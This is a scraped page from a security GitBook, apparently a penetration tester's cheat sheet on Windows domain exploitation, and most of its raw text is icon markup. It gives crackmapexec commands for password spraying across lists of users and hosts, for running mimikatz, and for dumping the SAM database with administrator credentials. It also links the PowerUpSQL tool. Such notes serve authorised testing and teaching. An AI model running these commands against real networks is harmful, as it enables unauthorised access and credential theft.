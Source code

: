 Password Spraying[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='939'%3e%3cg data-evernote-id='940' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='941' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='942' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#password-spraying)

Switch out usernames/passwords/targets with lists:

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='950'%3e%3cg data-evernote-id='951' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='952' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='953' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

63## to spray that Spring2020! and a list of users against a list of targets:
64crackmapexec smb ~/targets.txt -u ~/users.txt -p Spring2020! -d burmat.co

##

Dumping Credentials[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='972'%3e%3cg data-evernote-id='973' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='974' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='975' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#dumping-credentials)

![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='979'%3e%3cg data-evernote-id='980' class='js-evernote-checked'%3e%3crect x='9' y='9' width='13' height='13' rx='2' ry='2' data-evernote-id='981' class='js-evernote-checked'%3e%3c/rect%3e%3cpath d='M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1' data-evernote-id='982' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)Copy

65## mimikatz module

66crackmapexec smb 10.10.10.123 -u 'administrator' -d 'burmat.co' -p 'S3cur3PW123' -M mimikatz -o COMMAND='privilege::debug'

67​
68## SAM database

69crackmapexec smb 10.10.10.123 -u 'administrator' -d 'burmat.co' -p 'S3cur3PW123' --sam

#

POWERUPSQL[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1029'%3e%3cg data-evernote-id='1030' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1031' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1032' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#powerupsql)

GitHub Repo: https://github.com/NetSPI/PowerUpSQL and more thorough cheat sheet: https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet​

##

MSSQL Enumeration:[![](data:image/svg+xml,%3csvg preserveAspectRatio='xMidYMid meet' height='1em' width='1em' fill='none' xmlns='http://www.w3.org/2000/svg' viewBox='0 0 24 24' stroke-width='2' stroke-linecap='round' stroke-linejoin='round' stroke='currentColor' class='icon-7f6730be--text-3f89f380 js-evernote-checked' data-evernote-id='1060'%3e%3cg data-evernote-id='1061' class='js-evernote-checked'%3e%3cpath d='M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71' data-evernote-id='1062' class='js-evernote-checked'%3e%3c/path%3e%3cpath d='M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71' data-evernote-id='1063' class='js-evernote-checked'%3e%3c/path%3e%3c/g%3e%3c/svg%3e)](https://burmat.gitbook.io/security/hacking/domain-exploitation#mssql-enumeration)
